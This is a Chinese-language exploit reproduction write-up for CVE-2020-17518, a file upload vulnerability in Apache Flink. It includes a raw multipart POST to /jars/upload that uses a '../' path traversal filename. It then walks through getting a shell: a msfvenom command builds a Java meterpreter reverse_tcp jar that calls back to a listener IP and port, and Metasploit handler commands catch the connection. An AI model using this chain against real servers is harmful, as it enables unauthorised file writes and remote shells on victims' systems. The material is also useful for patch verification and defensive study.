

# CVE-2020-17518

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Apache Flink 文件上传漏洞

## 0x01 Apache Flink简介

Apache Flink 是一个框架和分布式处理引擎，用于在无边界和有边界数据流上进行有状态的计算。Flink 能在所有常见集群环境中运行，并能以内存速度和任意规模进行计算。Apache Flink 是一个分布式系统，它需要计算资源来执行应用程序。Flink 集成了所有常见的集群资源管理器，例如 Hadoop YARN、 Apache Mesos 和 Kubernetes，但同时也可以作为独立集群运行。

## 0x02 影响版本

```
Apache Flink 1.5.1 — 1.11.2
```

## 0x03 漏洞复现

1、访问Add New，上传



2、任意构造上传路径，上传文件。虽然响应显示400，但是已经上传成功。

```
POST /jars/upload HTTP/1.1
Host: 10.1.1.3:8081
Accept: */*
Content-Length: 240
Content-Type: multipart/form-data; boundary=------------------------23ef1e5684ec1135
Connection: close

--------------------------23ef1e5684ec1135
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/test.txt"
Content-Type: application/octet-stream

#test_content

--------------------------23ef1e5684ec1135--
```

## 0x04 漏洞进一步利用

上传jar包getshell

利用msfvenom工具生成.jar格式的木马，LHOST、LPORT为监听机器的IP和端口，此处利用Kali作为监听机。

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=4444 -f jar > rce.jar
```

在监听机执行

```
use exploit/multi/handler
set payload java/shell/reverse_tcp
set lhost 192.168.198.128
set lport 4444
explit
```

访问主页，点击Add New按钮，上传生成的rec.jar。


成功反弹shell。

